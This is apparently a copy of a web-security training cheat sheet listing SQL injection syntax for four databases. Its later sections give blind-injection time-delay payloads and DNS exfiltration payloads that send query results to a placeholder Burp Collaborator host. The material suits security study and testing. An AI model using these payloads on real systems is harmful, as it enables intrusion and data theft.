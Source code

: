 From: https://portswigger.net/web-security/sql-injection/cheat-sheet

SQL injection cheat sheet

## String concatenation
Oracle 	      'foo'||'bar' <br />
Microsoft 	  'foo'+'bar'
PostgreSQL  	'foo'||'bar'
MySQL 	      'foo' 'bar' [Note the space between the two strings]
              CONCAT('foo','bar')

## Substring
Oracle 	    SUBSTR('foobar', 4, 2)
Microsoft 	SUBSTRING('foobar', 4, 2)
PostgreSQL 	SUBSTRING('foobar', 4, 2)
MySQL 	    SUBSTRING('foobar', 4, 2)

## Comments
Oracle 	    --comment
Microsoft 	--comment
            /*comment*/
PostgreSQL 	--comment
            /*comment*/
MySQL 	    #comment
            -- comment [Note the space after the double dash]
            /*comment*/

## Database version
Oracle 	    SELECT banner FROM v$version
            SELECT version FROM v$instance
Microsoft 	SELECT @@version
PostgreSQL 	SELECT version()
MySQL 	    SELECT @@version

## Database contents
Oracle    	SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft 	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL 	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL 	    SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

## Conditional errors
Oracle 	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL 	    SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')

## Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
Oracle      Does not support batched queries.
Microsoft 	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL 	QUERY-1-HERE; QUERY-2-HERE
MySQL 	    QUERY-1-HERE; QUERY-2-HERE

Note
With MySQL, batched queries typically cannot be used for SQL injection. 
However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
Oracle 	    dbms_pipe.receive_message(('a'),10)
Microsoft 	WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT pg_sleep(10)
MySQL 	    SELECT sleep(10)

## Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.
Oracle 	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft 	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL 	    SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
            
## DNS lookup
You can cause the database to perform a DNS lookup to an external domain. 
To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that 
you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

**Oracle** 	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup.
The vulnerability has been patched but there are many unpatched Oracle installations in existence:
                     SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

The following technique works on fully patched Oracle installations, but requires elevated privileges:
                    SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')

**Microsoft** 	    exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
**PostgreSQL** 	    copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
**MySQL**          	The following techniques work on Windows only:
                    LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
                    SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
                    
## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. 
To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack,
and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

**Oracle** 	SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
**Microsoft** 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
**PostgreSQL** 	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();

**MySQL** 	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
